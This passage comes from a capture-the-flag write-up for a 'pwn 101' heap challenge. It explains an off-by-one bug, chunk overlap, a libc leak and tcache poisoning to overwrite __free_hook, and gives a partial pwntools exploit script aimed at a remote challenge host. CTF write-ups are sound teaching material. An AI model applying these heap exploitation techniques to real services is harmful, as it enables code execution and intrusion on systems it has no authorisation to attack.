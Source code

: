 
The exploit is same, except some offset has been changed.

## 116 Pwn / pwn 101

Vulnerability is off-by-one, we can use this to extend the chunk size of unsorted bin to create overlap to leak the `libc` address; then we can get the same chunk twice in 2 different indices, so we can use double free to poison `tcache bins` and rewrite `__free_hook`.

```python
from pwn import *
from struct import unpack as up
g_local=0
#p = ELF("./pwn101.elf")
context(log_level='debug', arch='amd64')
#e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
if g_local:
	sh = process("./pwn101.elf")
	gdb.attach(sh)
else:
	sh = remote("82.196.10.106", 29099)

sh.recvuntil("> ")
def add(length, name, description="20192019"):
	sh.sendline("1")
	sh.recvuntil("Description Length: ")
	sh.sendline(str(length))
	sh.recvuntil("Phone Number: ")
	sh.sendline("2019")
	sh.recvuntil("Name: ")
	sh.send(name)
	sh.recvuntil("Description: ")
	sh.send(description)
	sh.recvuntil("> ")

def delete(idx):
	sh.sendline("3")
	sh.recvuntil("Index: ")
	sh.sendline(str(idx))
	sh.recvuntil("> ")

def show(idx):
	sh.sendline("2")
	sh.recvuntil("Index: ")
	sh.sendline(str(idx))
	sh.recvuntil("Description : ")
	ret = sh.recvuntil('\n')
	sh.recvuntil("> ")
	return ret[:-1]

for i in xrange(7):
	add(0x200, 'name', 'fill tcache')
add(0x200, 'ab') #7
for i in xrange(7):
	delete(i)

add(0x58, 'c', 'A' * 0x50 + p64(0x1f0)) #0
add(0x100, 'pad') #1
delete(7)

add(0x78, "offbyone", 'a' * 0x78 + '\xf1') #2
#0x191 -> 0x1f1
add(0x180, "leak") #3
libc_addr = u64(show(0) + '\x00\x00') - 0x3ebca0
```
